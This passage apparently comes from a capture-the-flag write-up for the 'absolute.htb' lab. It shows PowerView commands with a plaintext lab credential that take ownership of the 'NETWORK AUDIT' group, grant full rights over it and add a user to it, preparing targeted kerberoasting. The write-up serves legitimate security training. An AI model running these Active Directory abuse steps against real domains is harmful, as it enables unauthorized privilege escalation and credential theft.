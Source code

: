 ![](https://i.imgur.com/jI7tbes.png)

Now having synchronzied with the domain controller we can use `PowerView` but for that we needed to make some configurations in host file and the openvpn adapter because without that it won't work properly and will show this 

```powershell
$SecPassword = ConvertTo-SecureString 'AbsoluteLDAP2022!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('absolute.htb\m.lovegod', $SecPassword)
```

![](https://i.imgur.com/DS2mPsC.png)

So to make this work we need to add the domain controller's IP as the DNS server in openvpn adapter's settings

![](https://i.imgur.com/1HEV4DZ.png)

![](https://i.imgur.com/bwMXO9C.png)

Make sure dc.absolute.htb isn't in the hosts file

![](https://i.imgur.com/whQ41Ed.png)

And now our powerview commands will work

![](https://i.imgur.com/3SuqE0Q.png)

Since I am on a windows machine and I had previously made m.lovegod the owner of network audit group but I did that on linux and a day was passed since I had done that so chances are that might have been revoked so I'll just do that powerview

```powershell
Set-DomainObjectOwner -Credential $Cred -Identity "NETWORK AUDIT" -OwnerIdentity "m.lovegod" -Domain 'absolute.htb'-DomainController dc.absolute.htb -V
```

![](https://i.imgur.com/0d9nZdm.png)

Now giving him the full control again 

```powershell
Add-DomainObjectAcl -TargetIdentity "NETWORK AUDIT" -PrincipalIdentity m.lovegod -Rights All -Verbose -Credential $Cred -Domain 'absolute.htb'
```

![](https://i.imgur.com/334mceC.png)

Now adding m.lovegod in network audit's group so that we can abuse generic write by doing targeted kerberoasting 

```powershell
Add-DomainGroupMember -Identity 'NETWORK AUDIT' -Members 'm.lovegod' -Domain 'absolute.htb' -Credential $Cred -Verbose
```
